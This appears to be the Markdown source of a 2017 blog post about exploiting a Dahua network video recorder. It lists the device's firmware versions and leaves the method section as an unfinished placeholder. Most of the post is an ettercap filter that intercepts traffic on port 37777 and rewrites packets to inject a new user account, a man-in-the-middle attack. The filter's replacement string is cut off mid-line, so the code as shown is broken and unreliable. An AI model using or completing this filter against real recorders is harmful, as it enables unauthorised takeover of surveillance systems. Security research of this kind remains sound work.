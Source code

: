```yaml
---
layout: post
title:  "Dahua NVR - Exploiting"
date:   2017-03-02 01:00:00 +11005
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified here [https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream


### The Hardware

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

I will be filling in all the details tomorrow.  If your here now, your too early.  Come back later.


ettercap filter
```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    log(DATA.data, "/tmp/data.l");
    replace("\xa4\x00\x00\x00\x00\x00\x00\x00\x1a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00", "\xa6\x00\x00\x00\x11\x00\x00\x00\x06\$
    log(DATA.data, "/tmp/data.l");
    msg("Done");
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}
![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.52.38 am.png){:class="img-responsive"}
